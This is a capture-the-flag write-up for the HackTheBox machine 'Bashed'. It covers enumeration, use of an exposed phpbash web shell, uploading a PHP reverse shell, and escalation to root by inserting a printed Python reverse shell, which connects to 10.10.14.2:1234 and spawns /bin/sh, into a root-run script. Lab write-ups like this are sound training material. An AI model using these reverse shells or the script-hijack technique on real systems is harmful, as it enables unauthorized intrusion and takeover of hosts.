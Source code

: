 ### Introduction
Bashed is an easy-medium level machine from HackTheBox. In this writeup I use dirbuster to look at directories and file names within the website. 

### Enumeration
Doing an nmap scan: ```nmap -Pn --script vuln 10.10.10.68``` will show the following:

![image](https://user-images.githubusercontent.com/41026969/56518515-afcdef80-650d-11e9-88ec-e09674852291.png)

Checking out the website:

![image](https://user-images.githubusercontent.com/41026969/56518745-38e52680-650e-11e9-98d4-8dffe729e588.png)

So on the front page there's something that the author/creator put called ```phpbash```. Apprently it helps with pentesting, clicking the arrow goes to another page where the author puts a link to a github: ```https://github.com/Arrexel/phpbash```

So from the nmap scan, we see that there are some interesting directories listed on the website. We can do further scans and see more directories and files using Dirbuster. I used Dirbuster's default wordlist ```directory-list-lowercase-2.3-small.txt```. This wordlist can be found under ```/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt```.

Dirbuster shows us some more interesting directories and files:

![image](https://user-images.githubusercontent.com/41026969/56519789-eb1ded80-6510-11e9-91f2-94c1ddc8e769.png)

Poking around and seeing the different directories and files, I eventually come across phpbash (what the github like was about) and it seems like a shell within the website at ```10.10.10.68/dev/phpbash.php```. Doing a quick ```whoami``` says I'm ```www-data``` which I suppose means I have user level access within this website.

Shown below is a picture of the shell within the website:

![image](https://user-images.githubusercontent.com/41026969/56520286-11905880-6512-11e9-99be-fb17d4e2bdef.png)

### Exploitation (and some more enumeration)
Upon discovering this shell and having user level access, I look around the box and see what files I have access to. 

##### Getting the user flag
I eventually wander into ```/home/``` and discover that there's a couple users listed: ```arrexel``` and ```scriptmanager```. Going into ```arrexel``` I see that there's a user flag!

As I'm going through each page carefully (doing a full ```ls -la``` check) I discover that if you go up one directory (from the one where you started), and go into ```uploads```, we have read, write, and execute permissions. Here's a picture of what is shows:

![image](https://user-images.githubusercontent.com/41026969/62765767-d2552b80-ba5e-11e9-8bf8-b37c771b27fe.png)

Since we have write permissions, we can upload things into this directory and get an actual shell. My plan is:

1. Create php code for a reverse shell that will be ready to use on the target host (we will upload it to target host)
2. Use ```python -m SimpleHTTPServer``` (it automatically uses port ```8000```) to communicate with target host
3. Using the simple http server, upload the php code
4. Run php code which will attempt to communicate with our local computer
5. Run ```ncat -ncvlp 4444``` (this will listen on port 4444)

This should get us a shell. The steps are explained more in detail (with some pictures).

For the first step, I used [pentestmonkey's php code](http://pentestmonkey.net/tools/web-shells/php-reverse-shell). You need to modify the php code to your IP and the port you'll be using on your simple http server.

The second step is straight forward, I just ran ```python -m SimpleHTTPServer```.

For the third step, we'd need to utilize ```wget``` which is a command to retrieve web content (like our SimpleHTTPServer), you'd also need to do it on the ```uploads``` directory on the website. You'd also need to give the direct link to the file you want to upload. Here's a visualization:

![image](https://user-images.githubusercontent.com/41026969/62768134-37f7e680-ba64-11e9-8915-04441c502b2d.png).

Assuming your wget command has the correct ip/port, the file should've been uploaded.

For the fourth step, we'd need to go directly to the page where the php code is stored (```10.10.10.68/uploads/[name of code]```) which leads to the fifth step of creating a listener on the port you put in the php file. (for example I put port 4444 on the code so to set up a listener, I'd do ```nc -nvlp 4444``` on my local terminal. 

If everything goes fine, you should get a response with a shell on your local terminal!

So to set up the shell better (and allow for potential escalation), I did ```python -c "import pty; pty.spawn('/bin/bash');"```. 

Doing an ```ls -la``` check reveals something interesting toward the bottom, there's a directory by someone named ```scriptmanager```

![image](https://user-images.githubusercontent.com/41026969/62770336-d6864680-ba68-11e9-8153-25473e4adcc4.png)

Doing ```sudo -l``` reveals we can run things as scriptmanager!

Now we can do ```sudo -u scriptmanager /bin/bash``` to get the shell as scriptmanager and thus allowing us to easier run commands as scriptmanager.

Going into that interesting directory, ```scripts``` we see there are two files:

![image](https://user-images.githubusercontent.com/41026969/62771062-519c2c80-ba6a-11e9-888e-d18359a9e6cf.png)

Looking at both, it seems that the python file writes to the text file which is owned by ```root```... So even though we edit it as scriptmanager (and thus own it) it still becomes root.

Using pentestmonkey's python reverse shell code and inserting it into the python code, when root runs that code again it will run the extra python code and we could potential gain a shell.

So similar to earlier, we edit the python file to include the reverse shell then we attempt to connect back to it using ```nc```.

Here's the python code with the extra code:
```
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

I use the same concept from earlier with the python SimpleHTTPServer to upload the new python file and after I set up the netcat listener: ```nc -nvlp 4444```. About a minute later, root ran the code and we we're able to get a root shell!

Looking around I eventually got the root flag!

### Flags
User: ```/home/arrexel/user.txt```

Root: ```/root/root.txt ```

